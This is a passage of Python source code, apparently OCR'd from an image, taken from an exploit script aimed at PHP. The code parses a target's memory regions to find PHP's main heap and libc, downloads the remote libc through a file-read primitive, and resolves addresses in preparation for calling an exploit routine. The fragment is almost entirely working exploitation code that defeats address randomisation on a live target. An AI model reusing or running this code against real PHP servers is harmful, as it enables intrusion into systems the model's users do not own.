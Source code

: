 ```python
        regions = self.get_regions()

        LIBC_FILE = "./libc.so.6"

        # PHP's heap

        self.info["heap"] = self.heap or self.find_main_heap(regions)
        print(f'HEAP address: {hex(self.info["heap"])}')

        # Libc

        libc = self._get_region(regions, "libc-", "libc.so")

        #self.download_file(libc.path, LIBC_FILE)

        self.info["libc"] = ELF(LIBC_FILE, checksec=False)
        print(f'LIBC address: {hex(libc.start)}')
        self.info["libc"].address = libc.start

    def _get_region(self, regions: list[Region], *names: str) -> Region:
        """Returns the first region whose name matches one of the given names."""
        for region in regions:
            if any(name in region.path for name in names):
                break
        else:
            failure("Unable to locate region")

        return region

    def download_file(self, remote_path: str, local_path: str) -> None:
        """Downloads `remote_path` to `local_path`"""
        data = self.remote.data_decode(self.get_file(remote_path))
        Path(local_path).write(data)

    def find_main_heap(self, regions: list[Region]) -> Region:
        # Any anonymous RW region with a size superior to the base heap size is a
        # candidate. The heap is at the bottom of the region.
        heaps = [
            region.stop - HEAP_SIZE + 0x40
            for region in reversed(regions)
            if region.permissions == "rw-p"
            and region.size >= HEAP_SIZE
            and region.stop & (HEAP_SIZE-1) == 0
            and region.path in ("", "[anon:zend_alloc]")
        ]

        if not heaps:
            failure("Unable to find PHP's main heap in memory")

        first = heaps[0]

        if len(heaps) > 1:
            heaps = ", ".join(map(hex, heaps))
            msg_info(f"Potential heaps: [i]{heaps}[/] (using last one)")
        else:
            msg_info(f"Using [i]{hex(first)}[/] as heap")

        return first

    def run(self) -> None:
        #self.check_vulnerable()
        self.get_symbols_and_addresses()
        self.exploit()
```